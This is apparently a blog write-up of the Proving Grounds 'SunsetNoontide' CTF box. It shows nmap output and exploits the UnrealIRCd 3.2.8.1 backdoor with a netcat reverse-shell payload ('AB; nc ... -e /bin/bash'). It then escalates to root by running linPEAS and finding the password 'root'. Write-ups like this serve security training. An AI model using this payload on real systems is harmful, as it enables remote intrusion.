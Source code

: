 ```yaml
---
title: "Proving grounds Play: SunsetNoontide"
layout: post
date: 2023-09-11 01:00
categories: writeup
---
```


Proving grounds Play - SunsetNoontide CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
| irc-info: 
|   users: 1
|   servers: 1
|   lusers: 1
|   lservers: 0
|   server: irc.foonet.com
|   version: Unreal3.2.8.1. irc.foonet.com 
|   uptime: 205 days, 6:52:38
|   source ident: nmap
|   source host: 46E8C50E.C2311716.EA8777A3.IP
|_  error: Closing Link: aguqweprx[192.168.45.209] (Quit: aguqweprx)
Service Info: Host: irc.foonet.com6697/tcp open  irc     UnrealIRCd
8067/tcp open  irc     UnrealIRCd (Admin email example@example.com)
```

## Unreal3.2.8.1. irc.foonet.com

The Unreal3.2.8.1. irc.foonet.com is vulnerable to remote code execution. The simple way to exploit the vulnerability is to send OS commands follwed by the `AB;` string.

### Exploitation

Connect to the PORT using netcat. Make sure to run netcat listener on PORT 1234.

```sh
# connect to PORT 
nc -nv $IP 6667

# send payload after connection
AB; nc 192.168.45.209 1234 -e /bin/bash
```

**Initial Foothold Obtained**

![img](/assets/images/CTF/Proving_Grounds/SunsetNoontide/shell.png)

## Privilege Escalation

Download and run [linPEAS](https://github.com/carlospolop/PEASS-ng/releases/download/20230910-ae32193f/linpeas.sh).

The results shows the root user access can be obtained by switching to root using password as `root`.

![img](/assets/images/CTF/Proving_Grounds/SunsetNoontide/root.png)

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
